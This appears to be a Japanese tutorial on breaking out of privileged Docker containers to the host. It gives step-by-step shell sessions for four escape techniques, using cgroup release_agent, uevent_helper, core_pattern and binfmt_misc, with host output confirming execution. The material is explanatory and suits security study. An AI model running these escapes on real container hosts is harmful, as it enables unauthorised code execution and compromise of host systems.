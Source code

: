 # ホストへのエスケープ

コンテナからホスト側にエスケープできることを、コンテナという牢獄から脱出することから「Breakout」「Jailbreak」などと呼ばれることがあります。  
ここではコンテナからホスト側への Breakout の手法について紹介します。

## Privileged Container

Privileged (特権)コンテナはホスト上の全てのデバイスへのアクセスを許可するだけでなく、AppArmor などの LSM を適用せず、Capability も過剰に与えてしまうため、適切に Isolation されていないホストのプロセスとほぼ同等のプロセスになります。  
そのため、特権コンテナを侵害された場合はホスト側にエスケープできてしまうので注意が必要です。

Linux の一部機能には任意のプログラムを実行できるヘルパー機能が多数あります。例えば `call_usermode_helper_exec()` のような Linux カーネルからユーザーランドアプリケーションを実行する API などがあります。  
Privileged コンテナのように過剰な Capability を与えると、コンテナの中で特定の操作が可能な場合、この機能を利用してホスト側にエスケープすることができます。  
ここでは、そのような機能を利用してコンテナからホストへエスケープする方法をいくつか紹介します。

## cgroup release_agent

cgourp v1 には cgroup で管理されているプロセスが存在しなくなった場合にカーネルに通知を送る機能があり、その際に release_agent プログラムとしてユーザーランドのプログラムを実行することができます。  
これを利用して例えばコンテナの中で cgroupfs をマウントすることができる場合、次のようにホスト側にエスケープすることができます。

```sh
$ docker run --privileged --rm -it ubuntu:latest bash

root@927bb44baf0d:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# release_agent を有効化する
root@927bb44baf0d:/# echo 1 > /tmp/cgrp/x/notify_on_release

# ホスト側で実行するプログラムを作成
root@927bb44baf0d:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@927bb44baf0d:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを release_agent プログラムとして登録
root@927bb44baf0d:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4HN7CVYLX5VML6M3TK4HLNKHX2:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/diff,workdir=/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/work,xino=off)
root@927bb44baf0d:/# echo "/var/lib/docker/overlay2/ed8b2e0d609b87c327e4c6061308d83acca13bc88fe96394b46dd5312af84277/diff/cmd" > /tmp/cgrp/release_agent

root@927bb44baf0d:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/tmp$ head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168656 12660 ?        Ss   Nov02   0:04 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov02   0:00 [kthreadd]
```

## uevent_helper

uevent はデバイスが追加 / 削除されたときに送信されるイベントです。その際に、 `/sys/kernel/uevent_helper` に記載されているプログラムを実行します。  
これを利用して次のようにホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# ホスト側で実行するプログラムを作成
root@76017d104897:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@76017d104897:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを書き込む
root@76017d104897:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/US76JCNP5VCQ2CUZIXYAU2VIQQ:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/diff,workdir=/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/work,xino=off)
root@76017d104897:/# echo "/var/lib/docker/overlay2/bb19048f6e555df3c5387b9a5a14c14fdd592fb97c3bd60ea5925ee75036cecd/diff/cmd" > /sys/kernel/uevent_helper

# uevent を発生させる
root@76017d104897:/# echo change > /sys/class/mem/null/uevent

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/tmp$ head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168656 12660 ?        Ss   Nov02   0:04 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov02   0:00 [kthreadd]
```

## core_pattern

coredump を生成する場合に `/proc/sys/kernel/core_pattern` で出力ファイル名を変更することができますが、 `|` (パイプ) が利用できるため、コマンドの実行が可能になります。  
これを利用して次のような手順でホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# ホスト側で実行するプログラムを作成
root@204c6661f442:/# cat <<EOF > /cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@204c6661f442:/# chmod +x /cmd

# ホスト側からみた実行したいプログラムのファイルパスを書き込む
root@204c6661f442:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/UEAKPG6M42F22YWZ3I7HK3LESS:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c0e86fc719d1d54c718cc3d0/diff,workdir=/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c0e86fc719d1d54c718cc3d0/work,xino=off)
root@204c6661f442:/# echo "|/var/lib/docker/overlay2/6acd5e8aa79a341ec8c970a77d9993617a7414b7c
0e86fc719d1d54c718cc3d0/diff/cmd" > /proc/sys/kernel/core_pattern

# プロセスを作り、SEGV させる
root@204c6661f442:/# sleep 100 &
[1] 16
root@204c6661f442:/# kill -SEGV 16
root@204c6661f442:/#
[1]+  Segmentation fault      (core dumped) sleep 100

# ホスト側でコマンドが実行されたことが確認できる
ubuntu@docker:/# head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168940 13144 ?        Ss   Nov13   0:05 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov13   0:00 [kthreadd]
```

## binfmt_misc

`/proc/sys/fs/binfmt_misc` は指定したマジックナンバーや拡張子のファイルを実行する際に、指定のプログラム(インタプリタ)を実行することができます。  
これを利用することで次のようにホスト側にエスケープできます。

```sh
ubuntu@docker:~$ docker run --privileged --rm -it ubuntu:latest bash
# binfmt_misc をマウント
root@4af543b9eb3f:/# mount binfmt_misc -t binfmt_misc /proc/sys/fs/binfmt_misc

# ホスト側で実行するプログラムを作成
root@4af543b9eb3f:/# cat <<EOF >/cmd
> #!/bin/sh
> ps aux > /tmp/output
> EOF
root@4af543b9eb3f:/# chmod +x /cmd

# .sh という拡張子のプログラムが実行されると cmd が実行するようにする
root@4af543b9eb3f:/# mount | grep overlay2
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/MVSWHTODE2R4PLCNOXNJ7MEHNX:/var/lib/docker/overlay2/l/RWN3A47IS5OFAM3BM5YCAOFBYD:/var/lib/docker/overlay2/l/DCI4FWEI5GWG2MAABQGMYNWPTY:/var/lib/docker/overlay2/l/EAP7XMJNE3QFMGS5SOHUTYQPBB,upperdir=/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/diff,workdir=/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/work,xino=off)
root@4af543b9eb3f:/# echo ':evil:E::sh::/var/lib/docker/overlay2/f5cbdf158d44a4e44969eab02661e22c0886d7695e216b4590115f35d4e7cc3f/diff/cmd:OC' > /proc/sys/fs/binfmt_misc/register

# ホスト側で .sh 拡張子をもつファイルを実行すると cmd が実行される
ubuntu@docker:~$ /tmp/test.sh
ubunty@docker:~# head /tmp/output
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.3 168940 13144 ?        Ss   Nov13   0:05 /sbin/init
root           2  0.0  0.0      0     0 ?        S    Nov13   0:00 [kthreadd]
...
```


